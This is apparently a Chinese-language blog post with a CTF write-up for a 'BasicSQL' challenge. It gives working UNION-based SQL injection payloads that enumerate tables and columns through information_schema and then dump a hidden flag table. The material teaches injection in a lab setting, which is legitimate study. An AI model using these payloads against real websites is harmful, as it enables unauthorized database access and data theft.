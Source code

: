 ```yaml
---
layout:   post
title:    BasicSQL
subtitle:   Hello world,hello blog!
date:     2019-04-14
author:   吴柚
header-img: post-bg-desk.jpg
catalog:    true
tags:
    - 学习
---
```


## 题目分析

![](https://i.loli.net/2019/04/14/5cb3435a3edf5.png)

打开题目中所给出的链接，发现有一个搜索框，在其中输入，都会得到与输入有关的结果。由此猜测搜索框对应的SQL语句为：

```
select * from news_table where news like '输入'
```
## 解题过程

在搜索框中输入
```
wy'union select 1,2,group_concat(table_name) from information_schema.tables;#
```

得到结果为

![](https://i.loli.net/2019/04/14/5cb345a7293aa.png)

查看网页源代码，发现flag可能存在于`f1agfl4gher3`这个表中

![](https://i.loli.net/2019/04/14/5cb345a820260.png)

尝试SQL注入，，在搜索框中输入：
```
flag' union select 1,2,COLUMN_NAME from information_schema.COLUMNS where table_name = 'f1agfl4gher3';#
```

得到结果为：

![](https://i.loli.net/2019/04/14/5cb346bd43fd6.png)

可以从上图中看到，`f1agfl4gher3`表的字段名为id和h3r31sfl4g。

再次尝试SQL注入，由id和h3r31sfl4g获取`f1agfl4gher3`表的所有字段值：

```
flag' union select 1,id,h3r31sfl4g from f1agfl4gher3;#
```

得到flag为`flag{sql_information_schema_hack}`

![](https://i.loli.net/2019/04/14/5cb347cbab631.png)
